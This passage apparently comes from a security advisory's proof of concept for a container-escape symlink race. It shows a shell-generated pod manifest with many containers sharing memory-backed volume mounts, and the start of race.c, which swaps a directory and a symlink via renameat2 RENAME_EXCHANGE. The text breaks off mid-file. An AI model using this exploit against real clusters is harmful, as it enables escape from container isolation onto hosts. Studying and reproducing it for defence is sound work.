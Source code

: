     $(for c in {2..20}; do
    cat <<EOC
        - name: c$c
        image: donotexists.com/do/not:exist
        command: [ "/bin/sleep", "inf" ]
        volumeMounts:
        - name: test1
            mountPath: /test1
    $(for m in {1..4}; do
    cat <<EOM
        - name: test2
            mountPath: /test1/mnt$m
    EOM
    done
    )
        - name: test2
            mountPath: /test1/zzz
    EOC
    done
    )
        volumes:
        - name: test1
        emptyDir:
            medium: "Memory"
        - name: test2
        emptyDir:
            medium: "Memory"
    EOF
    ```

2.  Compile race.c (simple binary running renameat2(dir,symlink,RENAME_EXCHANGE))

    ```
    cat > race.c <<'EOF'
    #define _GNU_SOURCE
    #include <fcntl.h>
    #include <stdio.h>
    #include <stdlib.h>
    #include <sys/types.h>
    #include <sys/stat.h>
    #include <unistd.h>
    #include <sys/syscall.h>

    int main(int argc, char *argv[]) {
        if (argc != 4) {
            fprintf(stderr, "Usage: %s name1 name2 linkdest\n", argv[0]);
            exit(EXIT_FAILURE);
        }
        char *name1 = argv[1];
        char *name2 = argv[2];
        char *linkdest = argv[3];

        int dirfd = open(".", O_DIRECTORY|O_CLOEXEC);
        if (dirfd < 0) {
            perror("Error open CWD");
            exit(EXIT_FAILURE);
        }
